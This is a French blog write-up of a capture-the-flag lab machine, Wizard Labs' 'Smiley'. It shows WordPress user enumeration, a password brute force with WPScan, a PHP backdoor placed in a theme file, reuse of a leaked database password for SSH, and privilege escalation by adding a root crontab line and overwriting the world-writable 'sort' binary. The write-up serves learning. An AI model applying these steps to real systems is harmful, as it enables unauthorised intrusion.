 # Solution du CTF Smiley de Wizard Labs

Nitro
-----

[Wizard Labs](https://labs.wizard-security.net/) est une plateforme de CTF similaire à *HackTheBox* qui permet d'accéder via VPN à un réseau de machines vulnérables.  

Ici c'est l'occasion de s'attaquer à *Smiley*, l'une des machines qui a un niveau de difficulté de 3 sur 10.  

Gathering
---------

Les services accessibles sur la machine sont caractéristiques d'une machine Linux : ssh, rpcbind et un Apache, tous sur leurs ports habituels.  

Le site web renvoie un *Wordpress* géré par un certain *smiley* :  

![Wizard Labs CTF Smiley wordpress site](https://github.com/devl00p/blog/raw/master/images/htb/smiley_wordpress.png)

Je m'empresse d'utiliser [WPscan](https://wpscan.org/) pour énumérer la version de Wordpress et les plugins installés. Cela n'a rien remonté d'intéressant donc on va s'intéresser aux utilisateurs :  

```plain
$ wpscan --url http://10.1.1.42/ -e u1-100 -P top500.txt
[+] Enumerating Users
 Brute Forcing Author IDs - Time: 00:00:01 <=================> (100 / 100) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] smiley
 | Detected By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - smiley / music                                                                                                                                                                    
Trying smiley / nathan Time: 00:00:25 <=================> (325 / 325) 100.00% Time: 00:00:25

[i] Valid Combinations Found:
 | Username: smiley, Password: music
```

Ici j'ai utilisé une wordlist contenant les 500 mots de passe les plus utilisés. On peut trouver des listes de ce site sur Github. *Ncrack* dispose d'une liste similaire [qui contient 5000 passwords](https://github.com/nmap/ncrack/blob/master/lists/top50000.pwd).  

Ces identifiants permettent donc d'accéder à la partie admin du site en se rendant sur */wp-admin*. Dans une situation comme celle-ci on peut installer un module Wordpress qui nous facilite la vie comme pour le [CTF Basic Pentesting: 1](http://devloop.users.sourceforge.net/index.php?article143/solution-du-ctf-basic-pentesting-1-de-vulnhub) ou bien aller modifier un script PHP d'un thème existant dans *Appearance > Editor* (*footer.php* par exemple).  

![Wizard Labs CTF Smiley wordpress theme edit backdoor](https://github.com/devl00p/blog/raw/master/images/htb/smiley_wp_edit.png)

Via une backdoor PHP insérée dans le script on peut exécuter des commandes sur le système en tant que *www-data* (pas vraiment de surprises).  

Le système est *Linux smiley 3.16.0-6-586 #1 Debian 3.16.56-1 (2018-04-28) i686 GNU/Linux*.  

On note dans */etc/passwd* la présence d'un utilisateur nommé *mike* d'UID 1000.  

Parmi les fichiers qu'il possède on trouve */var/tmp/binary\_as\_root* qui d'après les chaînes présentes dans ce binaire ELF semble être une copie de bash ou d'un autre shell...  

Malgré le nom donné à l'exécutable ce dernier n'est pas setuid et ne dispose pas non plus de [capabilities](https://linux.die.net/man/7/capabilities)...  

PrivEsc
-------

Dans le fichier de configuration de Wordpress on trouve le mot de passe permettant l'accès au MySQL.  

Ça semble inutile de fouiller dans la base *Wordpress* étant donné qu'on dispose du mot de passe de *smiley* mais il s'avère que le mot de passe ci-dessous permette l'accès SSH avec le compte *mike*, de quoi obtenir un shell digne de ce nom :)   

```php
/** The name of the database for WordPress */
define('DB_NAME', 'wpdatabase');

/** MySQL database username */
define('DB_USER', 'wpuser');

/** MySQL database password */
define('DB_PASSWORD', 'Il0veW0rdpress');
```

Dans le dossier personnel de l'utilisateur on trouve un binaire setuid root :  

```plain
-rwsr-xr-x 1 root root 7332 Dec 27 06:03 /home/mike/listwww
```

Ce dernier a un fonctionnement que l'on peut deviner simplement en appliquant la commande strings dessus :  

```plain
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
setreuid
printf
system
__cxa_finalize
__libc_start_main
GLIBC_2.1.3
GLIBC_2.0
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
UWVS
[^_]
listing /var/www/html
sleep 3
/bin/ls /var/www/html
```

Il effectue donc un *setreuid(0)* avec de lancer deux commandes bash, la première étant une fonction builtin (sleep), l'autre */bin/ls* avec le path complet...  

Ca ne semble pas laisser trop de possibilités à l'exploitation (jouer sur les PATHs et la recherche des exécutables par le binaire) mais avec [ShellShock](https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29) sait-on jamais.  

J'ai donc utilisé [bashcheck](https://github.com/hannob/bashcheck) pour tester la présence de la vulnérabilité bash mais il m'a dis... nope  

```plain
mike@smiley:~$ ./bashcheck
Testing /bin/bash ...
Bash version 4.3.30(1)-release

Variable function parser pre/suffixed [%%, upstream], bugs not exploitable
Not vulnerable to CVE-2014-6271 (original shellshock)
Not vulnerable to CVE-2014-7169 (taviso bug)
Not vulnerable to CVE-2014-7186 (redir_stack bug)
Test for CVE-2014-7187 not reliable without address sanitizer
Not vulnerable to CVE-2014-6277 (lcamtuf bug #1)
Not vulnerable to CVE-2014-6278 (lcamtuf bug #2)
```

J'ai aussi testé la faille XTRACE/PS4 utilisée pour le [CTF /dev/random: k2](http://devloop.users.sourceforge.net/index.php?article154/solution-du-ctf-dev-random-k2-de-vulnhub) sans plus de succès.  

La machine a une autre particularité qui ne peux pas échapper à des yeux avisés :  

```plain
-rwxrwxrwx 1 root root  822 Sep  5 05:29 /etc/crontab
```

Mais j'ai beau eu rajouter une ligne pour faire exécuter un script toutes les minutes :  

```plain
*/1 * * * * root /tmp/backdoor.py
```

... rien ne se passait :-|  

L'autre point inhabituel sur cette machine c'est que de nombreux binaires classiques sont word-writables...  

Du coup j'ai ressortit le script que j'avais fait pour le [CTF Homeless](http://devloop.users.sourceforge.net/index.php?article150/solution-du-ctf-homeless-de-vulnhub) qui surveille la liste des processus lancés sur le système histoire de voir de bons candidats à la réécriture.  

Le script montre que les taches CRON sont bien lancées mais bizarrement pas la notre :(  

```plain
6028 root /usr/sbin/CRON -f
6029 root /bin/sh -c test -x /etc/init.d/anacron && /usr/sbin/invoke-rc.d anacron start >/dev/null
6031 root /bin/sh -c test -x /etc/init.d/anacron && /usr/sbin/invoke-rc.d anacron start >/dev/null
6038 root /bin/sh /usr/sbin/invoke-rc.d anacron start
6040 root xargs
6041 root xargs
6044 root /bin/sh /usr/sbin/invoke-rc.d anacron start
6049 root /bin/sh /usr/sbin/invoke-rc.d anacron start
```

```plain
13317 root /usr/sbin/CRON -f
13319 root /bin/sh -c   [ -x /usr/lib/php5/sessionclean ] && /usr/lib/php5/sessionclean
13320 root /bin/sh -e /usr/lib/php5/sessionclean
13321 root /bin/sh -e /usr/lib/php5/sessionclean
13322 root sort -rn -t: -k2,2
13323 root sort -u -t: -k 1,1
13324 root /bin/sh -e /usr/lib/php5/sessionclean
13326 root /bin/sh -e /usr/lib/php5/sessionclean
```

Pas bien grave puisque j'ai choisit d'écraser le binaire *sort* par mon script Python initial qui m'a donné un accès root plusieurs minutes plus tard ([voir le Github d'infodox](https://github.com/infodox/python-pty-shells) pour des shells sympas en Python) :  

```plain
root@smiley:~# id
uid=0(root) gid=0(root) groups=0(root)
root@smiley:~# cd /root
root@smiley:~# ls -al
total 40
drwx------  5 root root 4096 Jun 15  2018 .
drwxr-xr-x 21 root root 4096 May  4  2018 ..
-rw-------  1 root root   70 Dec 27 06:20 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-------  1 root root  663 May 10  2018 .mysql_history
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
-rwx------  1 root root   33 May 10  2018 root.txt
drwxr-xr-x  3 root root 4096 May  4  2018 .vagrant
drwxr-xr-x  7 root root 4096 May  4  2018 .vagrant.d
drwx------  2 root root 4096 May  4  2018 .VirtualBox
root@smiley:~# cat root.txt
a16c3--- snip ---60f2b9b
root@smiley:~# cd /home/mike
root@smiley:/home/mike# ls
listwww  user.txt
root@smiley:/home/mike# cat user.txt
b075f--- snip ---88379
```

That's it
---------

Done ! On était dans de l'exploitation Linux très classique : énumération, brute-force puis escalade de privilège par écrasement d'un binaire ou accès à la crontab.  


*Published November 17 2020 at 13 44*
